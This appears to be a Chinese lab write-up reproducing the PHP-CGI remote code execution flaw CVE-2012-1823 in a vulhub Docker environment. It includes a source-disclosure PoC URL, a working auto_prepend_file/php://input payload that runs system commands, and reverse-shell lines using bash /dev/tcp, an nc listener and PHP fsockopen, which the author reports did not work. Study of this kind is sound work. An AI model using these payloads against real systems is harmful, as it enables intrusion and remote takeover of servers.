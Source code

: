 ```yaml
---
title: 漏洞复现-PHP-CGI远程代码执行 CVE-2012-1823
description: 漏洞复现
author: #有默认值
date: 2024-08-28 10:13:14 +0800
categories:  [漏洞复现]
tags:  [漏洞复现,RCE]     # TAG names should always be lowercase
pin:  # 默认false，可填true
math: true
mermaid: true
# image:
#   path: /assets/bar/home.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt:  # 图片名
---
```


## 构建

``` shell
cd ./vulhub/php/CVE-2012-1823
docker-compose up -d 
```

## 漏洞原理
https://blog.csdn.net/jiyongx/article/details/105220880

## PoC（Proof of Concept） 验证漏洞存在的代码
```shell
http://<ip>:<port>/index.php/?-s #将返回源码
```

## Exp（Exploit）进行实际的攻击利用
使用-d来指定auto_prepend_file制造任意文件包含漏洞，使用burpsuite抓包，然后修改数据包内容。使用“+”代替空格%3d代替“=”​​​​​​​

payload 漏洞利用载荷：

```url
-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input
<?php echo system("ls"); ?>
```

执行截图：

![image-20240828155056972](../assets/img/2024-08-28/iShot_2024-08-28_15.57.50.png)

成功执行代码ls



### 尝试建立反弹shell（失败）：

shellcode 

**被控机上用nc建立client进行连接**执行payload <?php echo shell_exec("bash -i >& /dev/tcp/<接收ip>/9999 0>&1");
**接收反弹Shell机器**执行：**`nc -lvp 9999`**

失败，暂不知道为什么，后面再说吧

```shell
<?php system('php -r \'$sock=fsockopen("127.0.0.1",9999);exec("/bin/bash -i <&3 >&3 2>&3");\''); ?>
```



## 复现总结

### 为什么payload 要 “+”代替空格%3d代替“=” ？

确保 URL 在传输过程中不被误解或破坏，进行转义。通常，空格会被编码为 `%20`，但在查询字符串中，空格也可以用 `+` 来表示。“=”替换为“%3d”
但on+-d ‘+’ 作为与后一个-d的参数分隔符，不能换成 %20